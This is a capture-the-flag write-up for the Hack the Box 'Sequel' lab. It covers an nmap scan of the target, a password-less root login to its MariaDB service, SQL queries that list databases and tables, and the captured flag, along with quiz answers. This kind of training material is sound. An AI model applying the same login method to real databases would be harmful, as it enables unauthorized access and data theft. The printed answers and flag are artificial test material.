 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: SQL
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- \*
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.95.232
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 17:36 EDT
Nmap scan report for 10.129.95.232
Host is up (0.065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 67
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Support41Auth, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, ODBCClient, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 4:fr+{OVC.YY0$bEn|D|
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 205.29 seconds
```

MyQSL is running on port x. We can connect using `mysql`.

Command:

`mysql -h 10.129.148.58 -u root`

`-h`: Connect to host {IP}.

`-u`: Log on as user {user}.

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

`show databases;` to print the contents of the database.

Remember the `;` at the end of the command.

```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)
```

`use htb;` to select table 'htb'.

```
MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`show tables;` to show the contents of the table.

```
MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)
```

`select * from config;` show all entries in the 'config' table.

```
MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

And we got the flag!

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]